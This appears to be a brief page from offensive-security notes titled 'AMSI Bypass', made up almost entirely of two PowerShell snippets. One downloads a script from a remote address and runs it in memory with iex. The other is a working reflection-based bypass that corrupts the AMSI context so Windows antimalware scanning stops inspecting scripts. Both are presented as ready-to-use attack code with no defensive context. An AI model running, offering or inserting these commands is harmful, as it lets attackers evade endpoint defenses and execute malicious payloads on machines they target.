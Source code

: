 # AMSI Bypass

<details>

<summary><a href="https://github.com/n000b3r/PrivEsc/tree/main/Windows/amsibypass">amsibypass.ps1</a></summary>

```powershell
iex (New-Object Net.WebClient).DownloadString("http://192.168.45.198/amsibypass.ps1")
```

</details>

<details>

<summary><a href="https://amsi.fail/">AMSI.Fail</a></summary>

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

</details>

